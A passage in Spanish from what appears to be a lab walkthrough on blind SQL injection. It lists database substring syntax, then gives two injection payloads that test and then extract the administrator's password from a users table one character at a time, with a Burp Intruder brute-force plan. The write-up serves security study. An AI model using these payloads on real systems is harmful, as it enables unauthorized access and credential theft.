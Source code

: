 Nos da un cambio a partir del caracter 20 por lo cual tendremos 20 caracteres en la contraseña... imposible hacerlo a mano

![](assets/2022-07-07-19-29-34.png)

### 7. obtener la contraseña

** Substring**

Vamos a suponer que no es oracle, si no funciona pues usamos la de oracle.

```bash
Oracle	        SUBSTR('foobar', 4, 2)

Microsoft	    SUBSTRING('foobar', 4, 2)

PostgreSQL	    SUBSTRING('foobar', 4, 2)

MySQL	        SUBSTRING('foobar', 4, 2)
```

Creamos una substring de un select mayor

La cadena grande sería

Necesitariamos que esto fuese 1=1 , obviamente como no sabemos la passwordadministrator y es un blind que no devuelve el valor... pues hay que hacerlo por otro método.

```bash
' and (select password from users where username='administrator')='passwordadministrator'--
```

y la subcadena sería de los payloads de arriba pero con password, por lo que la cadena total quedaría algo así.

```bash
' and (select substring(password,1,1) from users where username='administrator')='a'--
```

En intruder tendremos que hacer dos tipos de ataque.

   1. el primer 1 de la substring será un recorrido de 1 a 20
   2. la a será un brute force de alfanuméricos

![](assets/2022-07-07-19-41-12.png)
